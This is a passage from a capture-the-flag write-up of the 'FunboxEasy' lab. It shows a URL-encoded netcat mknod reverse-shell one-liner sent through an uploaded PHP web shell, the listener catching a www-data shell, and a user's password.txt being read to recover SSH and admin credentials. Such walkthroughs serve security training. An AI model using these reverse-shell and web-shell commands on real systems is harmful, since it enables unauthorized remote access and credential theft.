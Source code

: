 Images are placed in the _/img_ directory.
Test PHP shell RCE functionality.

![cmd](../../../assets/images/ctfs/proving_grounds/funboxeasy/cmd.png)

# Exploitation

---

## LFI

Now that we have a PHP command shell uploaded let get a revere shell.

Use _revshellgen_ and _urlencode_ to get a url encoded mk-nod reverse shell one-liner.

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/funboxeasy]
└─$ revshellgen -i 192.168.45.217 -p 9001 -t nc-mknod | tail -n 1
rm /tmp/l;mknod /tmp/l p;/bin/sh 0</tmp/l | nc 192.168.45.217 9001 1>/tmp/l

┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/funboxeasy]
└─$ urlencode "rm /tmp/l;mknod /tmp/l p;/bin/sh 0</tmp/l | nc 192.168.45.217 9001 1>/tmp/l"
rm%20%2Ftmp%2Fl%3Bmknod%20%2Ftmp%2Fl%20p%3B%2Fbin%2Fsh%200%3C%2Ftmp%2Fl%20%7C%20nc%20192.168.45.217%209001%201%3E%2Ftmp%2Fl

```

Run the reverse shell one-liner and get a reverse shell on our netcat listener.

```bash
URL: 192.168.222.111/store/bootstrap/img/test.php?cmd=rm%20%2Ftmp%2Fl%3Bmknod%20%2Ftmp%2Fl%20p%3B%2Fbin%2Fsh%200%3C%2Ftmp%2Fl%20%7C%20nc%20192.168.45.217%209001%201%3E%2Ftmp%2Fl
```

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/funboxeasy]
└─$ nc -nlvp 9001
listening on [any] 9001 ...
connect to [192.168.45.217] from (UNKNOWN) [192.168.222.111] 39914
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

# Post-Exploitation

---

## Enumerate Users

Discover user _tony_ and the file _password.txt_ which contains an SSH password.

```bash
www-data@funbox3:/home/tony$ ls -la
total 24
drwxr-xr-x 2 tony tony 4096 Oct 30  2020 .
drwxr-xr-x 3 root root 4096 Jul 30  2020 ..
-rw------- 1 tony tony    0 Oct 30  2020 .bash_history
-rw-r--r-- 1 tony tony  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 tony tony 3771 Feb 25  2020 .bashrc
-rw-r--r-- 1 tony tony  807 Feb 25  2020 .profile
-rw-rw-r-- 1 tony tony   70 Jul 31  2020 password.txt
www-data@funbox3:/home/tony$ cat password.txt
ssh: yxcvbnmYYY
gym/admin: asdfghjklXXX
/store: admin@admin.com admin
```